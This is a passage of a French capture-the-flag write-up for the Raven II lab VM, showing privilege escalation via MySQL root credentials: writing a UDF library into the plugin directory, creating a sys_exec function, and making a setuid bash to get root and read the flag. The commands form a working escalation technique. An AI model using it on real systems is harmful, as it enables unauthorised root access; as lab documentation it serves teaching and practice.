 Vu que l'on a les identifiants `root` pour la base de données ça nous laisse quelques possibilités qui sont notamment décrites sur [3306 - Pentesting Mysql - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library).

L'astuce consiste à créer une librairie UDF qui rajoutera une fonctionnalité d'exécution de commande à MySQL. En l'utilisant on exécutera des commandes en tant que `root` (du système).

Il y a un exploit sur _exploit-db_ : [MySQL User-Defined (Linux) x32 / x86_64 - 'sys_exec' Local Privilege Escalation (2) - Linux local Exploit](https://www.exploit-db.com/exploits/50236)

Seulement il utilise Python 3 et uniquement Python 2 est présent sur le système. Peu importe, l'exploit est facile à comprendre, il suffit de copier / coller ce qui nous intéresse dans l'invite `mysql` :

```
mysql> select @@plugin_dir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
1 row in set (0.00 sec)

mysql> select binary 0x7f454c4602010100000000000000000003003e0001000000d00c000--- snip ---00001000000000000000000000000000000 into dumpfile '/usr/lib/mysql/plugin/udbbackdoor.so';
Query OK, 1 row affected (0.00 sec)
mysql> create function sys_exec returns int soname 'udfbackdoor.so';
Query OK, 0 rows affected (0.01 sec)

mysql> select * from mysql.func where name='sys_exec';
+----------+-----+----------------+----------+
| name     | ret | dl             | type     |
+----------+-----+----------------+----------+
| sys_exec |   2 | udfbackdoor.so | function |
+----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select sys_exec('cp /bin/bash /tmp/bash && chmod +s /tmp/bash');
+----------------------------------------------------------+
| sys_exec('cp /bin/bash /tmp/bash && chmod +s /tmp/bash') |
+----------------------------------------------------------+
|                                                        0 |
+----------------------------------------------------------+
1 row in set (0.01 sec)
```

Notre bash setuid est prêt à l'emploi :

```console
www-data@Raven:/tmp$ ./bash -p
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cd /root
bash-4.3# ls
flag4.txt
bash-4.3# cat flag4.txt
  ___                   ___ ___ 
 | _ \__ ___ _____ _ _ |_ _|_ _|
 |   / _` \ V / -_) ' \ | | | | 
 |_|_\__,_|\_/\___|_||_|___|___|
                           
flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM

```